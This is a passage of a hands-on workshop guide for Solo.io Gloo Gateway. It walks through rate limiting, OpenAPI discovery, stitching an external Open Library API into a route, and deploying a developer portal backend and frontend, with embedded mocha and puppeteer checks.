timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

So, we've secured the access to our API, but you generally want to also limit the usage of your API.

We're going to configure rate limiting.

We need to create a `RateLimitConfig` object to define the limits:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: ratelimit.solo.io/v1alpha1
kind: RateLimitConfig
metadata:
  name: limit-apis
  namespace: gloo-system
spec:
  raw:
    setDescriptors:
      - simpleDescriptors:
          - key: userId
        rateLimit:
          requestsPerUnit: 5
          unit: MINUTE
    rateLimits:
      - setActions:
        - metadata:
            descriptorKey: userId
            metadataKey:
              key: envoy.filters.http.ext_authz
              path:
                - key: userId
EOF
```

It defines the limits for each user.

After that, we need to update the `RouteOption` to use the `RateLimitConfig`:

```bash
sleep 5
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption-apis
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: bookinfo
  options:
    # ExtAuth configuration
    extauth:
      configRef:
        name: apis
        namespace: gloo-system
    cors:
      allowCredentials: true
      allowHeaders:
      - "*"
      allowMethods:
      - GET
      allowOriginRegex:
      - ".*"
    # Rate limit configuration
    rateLimitConfigs:
      refs:
      - name: limit-apis
        namespace: gloo-system
EOF
```

Try to access the API more than 5 times:

```shell
for i in `seq 1 10`; do curl -k -H "Authorization: Bearer $USER1_TOKEN" "https://bookinfo.example.com/api/bookinfo/v1" -I; done
```

You should be rate limited:

```http,nocopy
HTTP/2 200 
content-type: application/json
content-length: 395
server: istio-envoy
date: Thu, 25 Apr 2024 09:17:10 GMT
x-envoy-upstream-service-time: 1

...

HTTP/2 429 
x-envoy-ratelimited: true
date: Thu, 25 Apr 2024 09:17:18 GMT
server: istio-envoy
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Access to API rate limited", () => {
  it('Response code is 429', () => helpers.checkURL({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v1', headers: [{key: 'Authorization', value: 'Bearer ' + process.env.USER1_TOKEN}], retCode: 429 }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/bookinfo/dev-portal-api/tests/access-api-rate-limited.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Next, let's tell Gloo about this API. Annotate the Bookinfo's `productpage` Service with information about it's OpenAPI schema. This allows Gloo to discover this APIs schema:

```bash
kubectl --context ${CLUSTER1} -n bookinfo annotate service productpage gloo.solo.io/scrape-openapi-source=https://raw.githubusercontent.com/istio/istio/master/samples/bookinfo/swagger.yaml --overwrite
kubectl --context ${CLUSTER1} -n bookinfo annotate service productpage gloo.solo.io/scrape-openapi-pull-attempts="3" --overwrite
kubectl --context ${CLUSTER1} -n bookinfo annotate service productpage gloo.solo.io/scrape-openapi-retry-delay=5s --overwrite
kubectl --context ${CLUSTER1} -n bookinfo annotate service productpage gloo.solo.io/scrape-openapi-use-backoff="true" --overwrite
```

<!--bash
echo Waiting for APIDoc to be created...
timeout -v 5m bash -c "until [[ \$(kubectl --context ${CLUSTER1} -n bookinfo get apidoc productpage-service) ]]; do
  kubectl --context ${CLUSTER1} -n bookinfo rollout restart deploy productpage-v1
  kubectl --context ${CLUSTER1} -n bookinfo rollout status deploy productpage-v1
  sleep 1
done"
-->

An `APIDoc` Kubernetes object, containing the schema of the API is automatically created:

```shell
kubectl --context ${CLUSTER1} -n bookinfo get apidoc productpage-service -o yaml
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("APIDoc has been created", () => {
    it('APIDoc is present', () => helpers.k8sObjectIsPresent({ context: process.env.CLUSTER1, namespace: "bookinfo", k8sType: "apidoc", k8sObj: "productpage-service" }));
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/bookinfo/dev-portal-api/tests/apidoc-created.test.js.liquid"
timeout --signal=INT 5m mocha ./test.js --timeout 10000 --retries=300 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

You should get something like this:

```yaml,nocopy
apiVersion: apimanagement.gloo.solo.io/v2
kind: ApiDoc
metadata:
  annotations:
    cluster.solo.io/cluster: ""
  creationTimestamp: "2024-04-23T15:57:44Z"
  generation: 1
  labels:
    reconciler.mesh.gloo.solo.io/name: schema-reporter-service
  name: productpage-service
  namespace: bookinfo
  resourceVersion: "2098"
  uid: 8c82fabc-cf4d-4894-806b-ac47ba9648b7
spec:
  openapi:
    inlineString: '{"components":{"schemas":{"Product":{"description":"Basic information
      about a product","properties":{"descriptionHtml":{"description":"Description
      of the book - may contain HTML tags","type":"string"},"id":{"description":"Product
      id","format":"int32","type":"integer"},"title":{"description":"Title of the
      book","type":"string"}},"required":["id","title","descriptionHtml"],"type":"object"},"ProductDetails":{"description":"Detailed
      information about a product","properties":{"ISBN-10":{"description":"ISBN-10
      of the book","type":"string"},"ISBN-13":{"description":"ISBN-13 of the book","type":"string"},"author":{"description":"Author
      of the book","type":"string"},"id":{"description":"Product id","format":"int32","type":"integer"},"language":{"description":"Language
      of the book","type":"string"},"pages":{"description":"Number of pages of the
      book","format":"int32","type":"integer"},"publisher":{"description":"Publisher
      of the book","type":"string"},"type":{"description":"Type of the book","enum":["paperback","hardcover"],"type":"string"},"year":{"description":"Year
      the book was first published in","format":"int32","type":"integer"}},"required":["id","publisher","language","author","ISBN-10","ISBN-13","year","type","pages"],"type":"object"},"ProductRatings":{"description":"Object
      containing ratings of a product","properties":{"id":{"description":"Product
      id","format":"int32","type":"integer"},"ratings":{"additionalProperties":{"type":"string"},"description":"A
      hashmap where keys are reviewer names, values are number of stars","type":"object"}},"required":["id","ratings"],"type":"object"},"ProductReviews":{"description":"Object
      containing reviews for a product","properties":{"id":{"description":"Product
      id","format":"int32","type":"integer"},"reviews":{"description":"List of reviews","items":{"$ref":"#/components/schemas/Review"},"type":"array"}},"required":["id","reviews"],"type":"object"},"Rating":{"description":"Rating
      of a product","properties":{"color":{"description":"Color in which stars should
      be displayed","enum":["red","black"],"type":"string"},"stars":{"description":"Number
      of stars","format":"int32","maximum":5,"minimum":1,"type":"integer"}},"required":["stars","color"],"type":"object"},"Review":{"description":"Review
      of a product","properties":{"rating":{"$ref":"#/components/schemas/Rating"},"reviewer":{"description":"Name
      of the reviewer","type":"string"},"text":{"description":"Review text","type":"string"}},"required":["reviewer","text"],"type":"object"}}},"externalDocs":{"description":"Learn
      more about the Istio BookInfo application","url":"https://istio.io/docs/samples/bookinfo.html"},"info":{"description":"This
      is the API of the Istio BookInfo sample application.","license":{"name":"Apache
      2.0","url":"http://www.apache.org/licenses/LICENSE-2.0.html"},"termsOfService":"https://istio.io/","title":"BookInfo
      API","version":"1.0.0"},"openapi":"3.0.3","paths":{"/products":{"get":{"description":"List
      all products available in the application with a minimum amount of information.","operationId":"getProducts","responses":{"200":{"content":{"application/json":{"schema":{"items":{"$ref":"#/components/schemas/Product"},"type":"array"}}},"description":"successful
      operation"}},"summary":"List all products","tags":["product"]}},"/products/{id}":{"get":{"description":"Get
      detailed information about an individual product with the given id.","operationId":"getProduct","parameters":[{"description":"Product
      id","in":"path","name":"id","required":true,"schema":{"format":"int32","type":"integer"}}],"responses":{"200":{"content":{"application/json":{"schema":{"$ref":"#/components/schemas/ProductDetails"}}},"description":"successful
      operation"},"400":{"description":"Invalid product id"}},"summary":"Get individual
      product","tags":["product"]}},"/products/{id}/ratings":{"get":{"description":"Get
      ratings for a product, including stars and their color.","operationId":"getProductRatings","parameters":[{"description":"Product
      id","in":"path","name":"id","required":true,"schema":{"format":"int32","type":"integer"}}],"responses":{"200":{"content":{"application/json":{"schema":{"$ref":"#/components/schemas/ProductRatings"}}},"description":"successful
      operation"},"400":{"description":"Invalid product id"}},"summary":"Get ratings
      for a product","tags":["rating"]}},"/products/{id}/reviews":{"get":{"description":"Get
      reviews for a product, including review text and possibly ratings information.","operationId":"getProductReviews","parameters":[{"description":"Product
      id","in":"path","name":"id","required":true,"schema":{"format":"int32","type":"integer"}}],"responses":{"200":{"content":{"application/json":{"schema":{"$ref":"#/components/schemas/ProductReviews"}}},"description":"successful
      operation"},"400":{"description":"Invalid product id"}},"summary":"Get reviews
      for a product","tags":["review"]}}},"servers":[{"url":"/api/v1"}],"tags":[{"description":"Information
      about a product (in this case a book)","name":"product"},{"description":"Review
      information for a product","name":"review"},{"description":"Rating information
      for a product","name":"rating"}]}'
  servedBy:
  - destinationSelector:
      port:
        number: 9080
      selector:
        name: productpage
        namespace: bookinfo
```

Note that you can also create the `APIDoc` objects manually to allow you to provide the OpenAPI document as code.

Then, we need to create an `ApiProduct` object (a bundle of APIs) targetting the `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: portal.gloo.solo.io/v1
kind: ApiProduct
metadata:
  name: bookinfo-api
  namespace: bookinfo
spec:
  id: bookinfo
  displayName: BookInfo REST API
  customMetadata:
    imageURL: https://raw.githubusercontent.com/solo-io/workshops/master/images/bookinfo.jpg
  versions:
    - apiVersion: v1
      targetRefs:
      - group: gateway.networking.k8s.io
        kind: HTTPRoute
        name: productpage-api-v1
        namespace: bookinfo
      openapiMetadata:
        title: BookInfo REST API v1
        description: |
          # Bookinfo REST API v1 Documentation
          This is some extra information about the API
      customMetadata:
        lifecyclePhase: General Availability
EOF
```

We define a single version `v1` and use the version custom metadata to define the lifecycle of it.

As you can see, we can also define custom metadata at the Api product level. We use this capability to define the picture we want to use to represent the ApiProduct in the portal.


## Lab 37 - Expose an external API and stitch it with the productpage API <a name="lab-37---expose-an-external-api-and-stitch-it-with-the-productpage-api-"></a>

You can also use Gloo Gateway to expose an API that is outside of the cluster. In this section, we will expose `https://openlibrary.org/search.json`

In our case, we're simulating the real API using `https://static.is.solo.io` (due to recent outages they had).

Let's create an `Upstream` object to define how to access the host [static.is.solo.io](https://static.is.solo.io/):

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gloo.solo.io/v1
kind: Upstream
metadata:
  name: openlibrary
  namespace: bookinfo
spec:
  static:
    hosts:
      - addr: static.is.solo.io
        port: 443
  sslConfig: {}
EOF
```

Then, you need to create an `ApiSchemaDiscovery` object to tell Gloo Gateway how to fetch it's OpenAPI document:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: portal.gloo.solo.io/v1
kind: ApiSchemaDiscovery
metadata:
  name: openlibrary
  namespace: bookinfo
spec:
  # Fetch the OpenAPI schema from the Open Library API
  openapi:
    fetchEndpoint:
      url: "https://raw.githubusercontent.com/internetarchive/openlibrary/refs/heads/master/static/openapi.json"
  servedBy:
  - targetRef:
      kind: UPSTREAM
      name: openlibrary
      namespace: bookinfo
    port: 443
EOF
```

An `APIDoc` Kubernetes object should be automatically created:

```shell
kubectl --context ${CLUSTER1} -n bookinfo get apidoc openlibrary -o yaml
```

<!--
Finally, you can create a new `HTTPRoute` to stitch together 2 paths from the openlibrary API with the existing Bookinfo API:
-->
Finally, you can create a new `HTTPRoute` to stitch together a path from the openlibrary API with the existing Bookinfo API:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: productpage-api-v2
  namespace: bookinfo
  annotations:
    delegation.gateway.solo.io/inherit-parent-matcher: "true"
spec:
  rules:
    # If the request path starts with /v2/search.json
    # Rewrite to /search.json and route to the openlibrary upstream
    - matches:
      - path:
          type: PathPrefix
          value: /v2/search.json
      backendRefs:
        - group: gloo.solo.io
          kind: Upstream
          name: openlibrary
          port: 443
      filters:
        - type: URLRewrite
          urlRewrite:
            hostname: static.is.solo.io
            path:
              type: ReplacePrefixMatch
              replacePrefixMatch: /search.json
    # If the request path starts with /v2/authors/{author}.json
    # Apply regex rewrite and route to the openlibrary upstream
    - matches:
      - path:
          type: RegularExpression
          value: /v2/authors/([^.]+).json
      backendRefs:
        - group: gloo.solo.io
          kind: Upstream
          name: openlibrary
          port: 443
      filters:
        - type: URLRewrite
          urlRewrite:
            hostname: static.is.solo.io
        - type: ExtensionRef
          extensionRef:
            group: gateway.solo.io
            kind: RouteOption
            name: regex-rewrite
    # If the request path starts with /v2
    # Rewrite to /api/v1/products and route to the productpage service
    - matches:
      - path:
          type: PathPrefix
          value: /v2
      backendRefs:
        - name: productpage
          port: 9080
      filters:
        - type: URLRewrite
          urlRewrite:
            path:
              type: ReplacePrefixMatch
              replacePrefixMatch: /api/v1/products
EOF
```

Note we've added the annotation `delegation.gateway.solo.io/inherit-parent-matcher: "true"` to inherit the matcher from the parent `HTTPRoute`. This means that we do not need to specify the prefix `/api/bookinfo` in the path matchers.

This time, we've used the `ExtensionRef` to select a `RouteOption` to perform a regex rewrite operation.

Let's create this `RouteOption`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: regex-rewrite
  namespace: bookinfo
spec:
  options:
    regexRewrite:
      # rewrite /api/bookinfo/v2/authors/{author}.json to /authors/{author}.json
      pattern:
        regex: /api/bookinfo/v2/authors/([^.]+).json
      substitution: /authors/\1.json
EOF
```

You can check the first path (/v2/search.json going to static.is.solo.io/search.json) is available:

```shell
curl -k -H "Authorization: Bearer ${USER1_TOKEN}" "https://bookinfo.example.com/api/bookinfo/v2/search.json?title=The%20Comedy%20of%20Errors&fields=language&limit=1"
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Access the openlibrary API", () => {
  it('Checking text \'language\' in the response', () => helpersHttp.checkBody({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v2/search.json?title=The%20Comedy%20of%20Errors&fields=language&limit=1', headers: [{key: 'Authorization', value: 'Bearer ' + process.env.USER1_TOKEN}], body: 'language', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/bookinfo/dev-portal-stitching/tests/access-openlibrary-api.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

You should see something like this:

```json,nocopy
{
    "numFound": 202,
    "start": 0,
    "numFoundExact": true,
    "docs": [
        {
            "language": [
                "ger",
                "und",
                "eng",
                "tur",
                "ita",
                "fre",
                "tsw",
                "heb",
                "spa",
                "nor",
                "slo",
                "chi",
                "mul",
                "esp",
                "dut",
                "fin"
            ]
        }
    ],
    "num_found": 202,
    "q": "",
    "offset": null
}
```

We've also exposed the `/authors/{olid}.json` path to demonstrate how we can use regular expressions to capture path parameters.

You can try it out with the following command:

```shell
curl -k -H "Authorization: Bearer ${USER1_TOKEN}" "https://bookinfo.example.com/api/bookinfo/v2/authors/OL23919A.json"
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Access the openlibrary API with regex", () => {
  it('Checking text \'Rowling\' in the response', () => helpersHttp.checkBody({ host: `https://bookinfo.example.com`, path: '/api/bookinfo/v2/authors/OL23919A.json', headers: [{key: 'Authorization', value: 'Bearer ' + process.env.USER1_TOKEN}], body: 'Rowling', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/bookinfo/dev-portal-stitching/tests/access-openlibrary-api-regex.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

We also need to update the `ApiProduct` object to define a new version targetting the new HTTPRoute:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: portal.gloo.solo.io/v1
kind: ApiProduct
metadata:
  name: bookinfo-api
  namespace: bookinfo
spec:
  id: bookinfo
  displayName: BookInfo REST API
  customMetadata:
    imageURL: https://raw.githubusercontent.com/solo-io/workshops/master/images/bookinfo.jpg
  versions:
    - apiVersion: v1
      targetRefs:
      - group: gateway.networking.k8s.io
        kind: HTTPRoute
        name: productpage-api-v1
        namespace: bookinfo
      openapiMetadata:
        title: BookInfo REST API v1
        description: |
          # Bookinfo REST API v1 Documentation
          This is some extra information about the API
      customMetadata:
        lifecyclePhase: Deprecated
    - apiVersion: v2
      targetRefs:
      - group: gateway.networking.k8s.io
        kind: HTTPRoute
        name: productpage-api-v2
        namespace: bookinfo
      openapiMetadata:
        title: BookInfo REST API v2
        description: |
          # Bookinfo REST API v1 Documentation
          You can find more information about the openlibrary API [here](https://openlibrary.org/developers/api)
      customMetadata:
        lifecyclePhase: General Availability
EOF
```


## Lab 38 - Expose the dev portal backend <a name="lab-38---expose-the-dev-portal-backend-"></a>

Now that your API has been exposed securely and our plans defined, lets advertise this API through a developer portal.

Two components are serving this purpose:
- the Gloo Gateway portal backend which provides a portal API (that has information about the published API Products)
- the Gloo Gateway portal frontend which consumes this portal API

In this lab, we're going to set up the Gloo Gateway Portal backend.

First, you need to create an `AuthConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: portal
  namespace: gloo-system
spec:
  configs:
    - oauth2:
        oidcAuthorizationCode:
          appUrl: "https://portal.example.com"
          callbackPath: /v1/login
          clientId: ${KEYCLOAK_CLIENT}
          clientSecretRef:
            name: oauth
            namespace: gloo-system
          issuerUrl: "${KEYCLOAK_URL}/realms/workshop/"
          logoutPath: /v1/logout
          session:
            failOnFetchFailure: true
            redis:
              cookieName: keycloak-session
              options:
                host: redis:6379
          scopes:
          - email
          headers:
            idTokenHeader: id_token
EOF
```

Then, you need to create a `RouteOption` which references this `AuthConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption-portal-api
  namespace: gloo-system
spec:
  options:
    extauth:
      configRef:
        name: portal
        namespace: gloo-system
EOF
```

Finally, you can expose the portal API through Gloo Gateway using a `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: portal-server
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https
  hostnames:
    - "portal.example.com"
    - gateway-portal-web-server.gloo-system
  rules:
    - backendRefs:
        - name: gateway-portal-web-server
          port: 8080
      matches:
      - path:
          type: PathPrefix
          value: /v1
        headers:
        - name: Authorization
          type: RegularExpression
          value: Bearer\s.*
      filters:
        - type: ExtensionRef
          extensionRef:
            group: gateway.solo.io
            kind: RouteOption
            name: routeoption-apis
    - backendRefs:
        - name: gateway-portal-web-server
          port: 8080
      matches:
      - path:
          type: PathPrefix
          value: /v1
        headers:
          - name: Cookie
            type: RegularExpression
            value: ".*?keycloak-session=.*"
      filters:
        - type: ExtensionRef
          extensionRef:
            group: gateway.solo.io
            kind: RouteOption
            name: routeoption-portal-api
    - backendRefs:
        - name: gateway-portal-web-server
          port: 8080
      matches:
      - path:
          type: PathPrefix
          value: /v1
EOF
```

Note that we have matchers for authenticated access and unauthenticated access (public APIs).
Make sure the domain is in our `/etc/hosts` file:

```bash
./scripts/register-domain.sh portal.example.com ${PROXY_IP}
```

You should now be able to access the portal API through the gateway:

```shell
curl -k "https://portal.example.com/v1/api-products"
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Access the portal API without authentication", () => {
  it('Checking text \'{"message":"portal config not found"}\' in the response', () => helpersHttp.checkBody({ host: `https://portal.example.com`, path: '/v1/api-products', body: '{"message":"portal config not found"}', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/bookinfo/dev-portal-backend/tests/access-portal-api-no-auth-no-config.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Here is the expected output:

```json,nocopy
{"message":"portal config not found"}
```

You can see that no portal configuration has been found.

We'll create it later.


## Lab 39 - Deploy and expose the dev portal frontend <a name="lab-39---deploy-and-expose-the-dev-portal-frontend-"></a>

The developer frontend is provided as a fully functional template to allow you to customize it based on your own requirements.

Let's deploy it:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: portal-frontend
  namespace: gloo-system
---
apiVersion: v1
kind: Service
metadata:
  name: portal-frontend
  namespace: gloo-system
  labels:
    app: portal-frontend
    service: portal-frontend
spec:
  ports:
  - name: http
    port: 4000
    targetPort: 4000
  selector:
    app: portal-frontend
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: portal-frontend
  namespace: gloo-system
spec:
  replicas: 1
  selector:
    matchLabels:
      app: portal-frontend
  template:
    metadata:
      labels:
        app: portal-frontend
    spec:
      serviceAccountName: portal-frontend
      containers:
      - image: gcr.io/solo-public/docs/portal-frontend:v0.0.35
        args: ["--host", "0.0.0.0"]
        imagePullPolicy: Always
        name: portal-frontend
        ports:
        - containerPort: 4000
        readinessProbe:
          httpGet:
            path: /login
            port: 4000
        env:
        - name: VITE_PORTAL_SERVER_URL
          value: "https://portal.example.com/v1"
        - name: VITE_APPLIED_OIDC_AUTH_CODE_CONFIG
          value: "true"
        - name: VITE_OIDC_AUTH_CODE_CONFIG_CALLBACK_PATH
          value: "/v1/login"
        - name: VITE_OIDC_AUTH_CODE_CONFIG_LOGOUT_PATH
          value: "/v1/logout"
EOF
```

Wait for the deployment to be ready:
```bash
kubectl --context ${CLUSTER1} -n gloo-system rollout status deploy portal-frontend
```

We can now expose the portal frontend through Gloo Gateway using a `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: portal-frontend
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https
  hostnames:
    - "portal.example.com"
    - gateway-portal-web-server.gloo-system
  rules:
    - backendRefs:
        - name: portal-frontend
          port: 4000
      matches:
      - path:
          type: PathPrefix
          value: /v1/login
      - path:
          type: PathPrefix
          value: /v1/logout
      filters:
        - type: ExtensionRef
          extensionRef:
            group: gateway.solo.io
            kind: RouteOption
            name: routeoption-portal-api
    - backendRefs:
        - name: portal-frontend
          port: 4000
      matches:
      - path:
          type: PathPrefix
          value: /
EOF
```

Then, we need to create a `Portal` object to define which API products are going to be exposed.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: portal.gloo.solo.io/v1
kind: Portal
metadata:
  name: portal
  namespace: gloo-system
spec:
  # APIs will be accessible to unauthenticated users
  visibility:
    public: true
  # List of API products to be included in the portal
  apiProducts:
    - name: bookinfo-api
      namespace: bookinfo
EOF
```

Finally, we need to create a `ReferenceGrant` object to allow the `Portal` object in the `gloo-system` namespace to access the `ApiProduct` objects in the `bookinfo` namespace.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1beta1
kind: ReferenceGrant
metadata:
  name: allow-portal-to-access-apiproduct
  namespace: bookinfo
spec:
  # Allow the portal server to reference APIProducts in other namespaces
  from:
    - group: portal.gloo.solo.io
      kind: Portal
      namespace: gloo-system
  to:
    - group: portal.gloo.solo.io
      kind: ApiProduct
EOF
```

<!--bash
ATTEMPTS=1
timeout 120 bash -c 'while [[ "$(curl -m 2 --max-time 2 --insecure -s -o /dev/null -w ''%{http_code}'' https://portal.example.com/v1/login)" != "302" ]]; do sleep 5; done'
timeout 120 bash -c 'while [[ "$(curl -m 2 --max-time 2 --insecure -s -o /dev/null -w ''%{http_code}'' https://portal.example.com)" != "200" ]]; do sleep 5; done'
export USER1_COOKIE=$(node tests/keycloak-token.js "https://portal.example.com/v1/login" user1)
export USER2_COOKIE=$(node tests/keycloak-token.js "https://portal.example.com/v1/login" user2)
ATTEMPTS=1
until ([ ! -z "$USER2_COOKIE" ] && [[ $USER2_COOKIE != *"dummy"* ]]) || [ $ATTEMPTS -gt 20 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 3
  export USER2_COOKIE=$(node tests/keycloak-token.js "https://portal.example.com/v1/login" user2)
done
ATTEMPTS=1
until ([ ! -z "$USER1_COOKIE" ] && [[ $USER1_COOKIE != *"dummy"* ]]) || [ $ATTEMPTS -gt 20 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 3
  export USER1_COOKIE=$(node tests/keycloak-token.js "https://portal.example.com/v1/login" user1)
done
echo "User1 token: $USER1_COOKIE"
echo "User2 token: $USER2_COOKIE"

# The user must be created (in the database) in 1.18
curl -k -H "Cookie: ${USER1_COOKIE}" -X PUT "https://portal.example.com/v1/me"
-->

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Access the portal frontend with authentication", () => {
  const cookieString = process.env.USER1_COOKIE;

  it('Checking text \'apiProductMetadata\' in the response', () => helpersHttp.checkBody({ host: `https://portal.example.com`, path: '/v1/api-products', headers: [{ key: 'Cookie', value: cookieString }], body: 'apiProductMetadata', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/bookinfo/dev-portal-frontend/tests/access-portal-api-auth.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

You should now be able to access the portal frontend through the gateway.

Get the URL to access the portal frontend using the following command:

```shell
echo "https://portal.example.com"
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Authentication is working properly", function() {
  const cookieString = process.env.USER1_COOKIE;

  it("The portal frontend isn't accessible without authenticating", () => {
    return helpersHttp.checkURL({ host: `https://portal.example.com`, path: '/v1/login', retCode: 302 });
  });

  it("The portal frontend is accessible after authenticating", () => {
    return helpersHttp.checkURL({ host: `https://portal.example.com`, path: '/v1/login', headers: [{ key: 'Cookie', value: cookieString }], retCode: 200 });
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/bookinfo/dev-portal-frontend/tests/access-portal-frontend-authenticated.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

If you click on the `LOGIN` button on the top right corner, you'll be redirected to keycloak and should be able to auth with the user `user1` and the password `password`.

Now, if you click on the `VIEW APIS` button, you should see the `Bookinfo REST API`.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');
const DeveloperPortalHomePage = require('./tests/pages/developer-portal-home-page');
const DeveloperPortalAPIPage = require('./tests/pages/developer-portal-api-page');
const KeycloakSignInPage = require('./tests/pages/keycloak-sign-in-page');
const constants = require('./tests/pages/constants');
const puppeteer = require('puppeteer');
const { enhanceBrowser } = require('./tests/utils/enhance-browser');
var chai = require('chai');
var expect = chai.expect;

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 4000);
  } else {
    done();
  }
});

describe("Dev portal frontend UI", function () {
  // UI tests often require a longer timeout.
  // So here we force it to a minimum of 30 seconds.
  const currentTimeout = this.timeout();
  this.timeout(Math.max(currentTimeout, 30000));

  let browser;
  let devPortalHomePage;
  let devPortalAPIPage;
  let keycloakSignInPage;

  // Use Mocha's 'before' hook to set up Puppeteer
  beforeEach(async function () {
    browser = await puppeteer.launch({
      headless: "new",
      slowMo: 40,
      ignoreHTTPSErrors: true,
      args: ['--no-sandbox', '--disable-setuid-sandbox'],
    });
    browser = enhanceBrowser(browser, this.currentTest.title);
    let page = await browser.newPage();
    await page.setViewport({ width: 1500, height: 1000 });
    devPortalHomePage = new DeveloperPortalHomePage(page);
    devPortalAPIPage = new DeveloperPortalAPIPage(page);
    keycloakSignInPage = new KeycloakSignInPage(page);
  });

  // Use Mocha's 'after' hook to close Puppeteer
  afterEach(async function () {
    await browser.close();
  });

  it("should authenticate with keycloak", async () => {
    await devPortalHomePage.navigateTo(`https://portal.example.com`);
    await devPortalHomePage.clickLogin();
    await keycloakSignInPage.signIn("user1", "password");
    let username = await devPortalHomePage.getLoggedInUserName();
    expect(username).to.equal("user1");
  });

  it("should see API Products", async () => {
    await devPortalAPIPage.navigateTo(`https://portal.example.com/apis`);
    const apiProducts = await devPortalAPIPage.getAPIProducts();
    expect(apiProducts.some(item => item.includes("BookInfo"))).to.be.true;
  });
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/bookinfo/dev-portal-frontend/tests/dev-portal-ui-tests.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=150 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


## Lab 40 - Dev portal monetization <a name="lab-40---dev-portal-monetization-"></a>

The `portalMetadata` section of the `ApiProduct` objects we've created previously is used to add some metadata in the access logs.

You can configure the access logs to take advantage of the metadata:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: ListenerOption
metadata:
  name: access-logging
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: Gateway
    name: http
  options:
    accessLoggingService:
      accessLog:
      - fileSink:
          path: /dev/stdout
          jsonFormat:
            "timestamp": "%START_TIME%"
            "server_name": "%REQ(:AUTHORITY)%"
            "response_duration": "%DURATION%"
            "request_command": "%REQ(:METHOD)%"
